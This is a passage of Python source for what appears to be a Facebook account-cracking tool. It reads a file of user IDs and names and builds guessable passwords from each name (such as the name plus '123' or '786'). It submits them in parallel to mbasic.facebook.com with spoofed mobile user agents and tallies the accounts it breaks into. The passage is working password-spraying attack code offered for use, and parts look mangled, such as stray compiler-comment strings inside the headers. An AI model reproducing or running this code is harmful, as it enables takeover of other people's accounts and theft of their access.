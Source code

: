 						uid, name = yntkts.split('|')
						xz = name.split(' ')
						if len(xz) == 1:
							pwx = [name, xz[0]+"123", xz[0]+"1234", xz[0]+"786", xz[0]+"12345", xz[0]+"1122"]
						elif len(xz) == 2:
							pwx = [name, xz[0]+"123", xz[0]+"1234", xz[0]+"786", xz[0]+"12345", xz[0]+"1122"]
						elif len(xz) == 3:
							pwx = [name, xz[0]+"123", xz[0]+"1234", xz[0]+"786", xz[0]+"12345", xz[0]+"1122"]
						elif len(xz) == 4:
							pwx = [name, xz[0]+"123", xz[0]+"1234", xz[0]+"786", xz[0]+"12345", xz[0]+"1122"]
						else:
							pwx = [name, xz[0]+"123", xz[0]+"1234", xz[0]+"786", xz[0]+"12345", xz[0]+"1122"]
						_ngentot_gratis_.submit(self.__mbasic__, uid, pwx)
					except:
						pass
			os.remove(self.apk)
			hasil(ok,cp)
		else:
			print('\nSalah')
			time.sleep(1)
			self.__pler__()
			
class __filecrack3__:
	def __init__(self):
		self.id = []
	def plerr(self):
		os.system("clear");print(banner)
		print('          \033[1;32m[ File CLONING ONLY OK IDS ] ')
		print(50*"\033[1;97m_")
		try:
			self.apk = input("\033[1;37m[+] \033[1;36mFILE PATH\033[1;31m : \033[1;32m ")
			print ('')
			self.id = open(self.apk).read().splitlines()
		except:
			print('\n \033[1;37m[!] \033[1;31mFile Not Found In Storage')
			input('\n\033[1;37m[*] \033[1;36mPress Enter To Back');version()
            
     
		self.__pler__()
	def __mbasic__(self, user, _sempak_):
		global ok,cp,loop
		sys.stdout.write(f"\r \x1b[1;97m[\033[1;36mPSYCHO\033[1;37m] {loop}/{len(self.id)} \033[1;37m[\033[1;32mOK-{len(ok)}\033[1;37m] ")
		sys.stdout.flush()
		for pw in _sempak_:
			pw = pw.lower()
			try: os.mkdir('')
			except: pass
			try:
				ua_xiaomi = open('agent.txt', 'r').read()
			except (KeyError, IOError):
				ua_xiaomi  = 'Mozilla/5.0 (Linux; Android 10; Mi 9T Pro Build/QKQ1.190825.002; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/88.0.4324.181 Mobile Safari/537.36 [FBAN/EMA;FBLC/id_ID;FBAV/239.0.0.10.109;]'
			ses = requests.Session()
			headers_ = {"Host":"mbasic.facebook.com","upgrade-insecure-requests":"1","user-agent":"NokiaC3-00/5.0 (08.63) Profile/MIDP-2.1 Configuration/CLDC-1.1 Mozilla/5.0 AppleWebKit/420+ (KHTML, like Gecko) Safari/420+","accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","dnt":"1","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":"https://mbasic.facebook.com/","accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"}
			p = ses.get('https://mbasic.facebook.com/index.php?next=https%3A%2F%2Fdevelopers.facebook.com%2Ftools%2Fdebug%2Faccesstoken%2F', headers=headers_).text